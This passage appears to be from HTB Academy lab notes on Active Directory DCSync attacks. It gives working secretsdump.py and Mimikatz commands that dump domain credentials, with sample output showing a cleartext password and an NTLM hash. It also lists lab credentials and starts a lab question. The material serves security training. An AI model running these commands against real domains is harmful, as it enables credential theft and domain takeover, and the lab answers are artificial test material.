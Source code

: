 **Expected Output:**
```powershell
samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

#### **Using Get-ADUser**
```powershell
# Alternative method with native AD module
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### **Extracting Cleartext Passwords**

#### **With secretsdump.py**
```bash
# DCSync will automatically decrypt reversible encryption passwords
secretsdump.py -just-dc INLANEFREIGHT/adunn@172.16.5.5

# Check cleartext file
cat inlanefreight_hashes.ntds.cleartext
# Output: proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

#### **With Mimikatz**
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\proxyagent
```

**Real Output showing cleartext:**
```
Credentials:
  Hash NTLM: d387b9d2d9f6dda51964194ad2376ee0

* Primary:CLEARTEXT *
    Pr0xy_ILFREIGHT!
```

---

## 🎯 **HTB Academy Lab Solutions**

### **Lab Environment Details**
- **Target IP**: `10.129.149.107`
- **RDP Credentials**: `htb-student:Academy_student_AD!`
- **adunn Password**: `SyncMaster757` (from previous ACL Abuse module)

### **🔍 Question 1: "Perform a DCSync attack and look for another user with the option 'Store password using reversible encryption' set. Submit the username as your answer."**
